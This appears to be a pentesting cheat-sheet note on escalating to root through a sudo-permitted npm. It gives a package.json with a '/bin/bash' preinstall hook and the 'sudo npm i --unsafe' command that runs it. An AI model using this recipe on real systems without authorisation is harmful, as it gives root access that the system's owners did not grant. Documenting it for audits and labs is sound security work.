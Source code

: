 ```yaml
---
title: "npm"
date: 2024-6-26
tags: ["npm", "nodejs", "privesc", "sudo"]
---
```


#### SUDO

Create a 'package.json'

```console
{
  "name": "root",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

<br>

```console
mkdir test
```

```console
mv package.json test/
```

```console
sudo npm i test/ --unsafe
```

